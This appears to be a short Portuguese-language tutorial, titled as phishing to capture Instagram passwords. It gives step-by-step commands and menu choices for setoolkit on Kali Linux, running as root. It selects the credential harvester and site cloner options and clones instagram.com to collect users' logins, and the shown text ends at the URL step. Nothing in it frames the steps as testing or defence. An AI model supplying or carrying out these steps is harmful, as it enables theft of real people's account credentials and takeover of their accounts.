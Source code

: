 # Phishing para Captura de Senhas do Instagram

## Ferramentas Necessárias

- **Kali Linux**
- **setoolkit**

## Configurando o Phishing no Kali Linux

```bash
# Acesse como root
sudo su

# Inicie o setoolkit
setoolkit

# Escolha o tipo de ataque
# > Social-Engineering Attacks

# Escolha o vetor de ataque
# > Web Site Attack Vectors

# Selecione o método de ataque
# > Credential Harvester Attack Method

# Selecione o método
# > Site Cloner

# Obtenha o endereço IP da sua máquina
ifconfig

# Insira a URL que será clonada
# > http://www.instagram.com
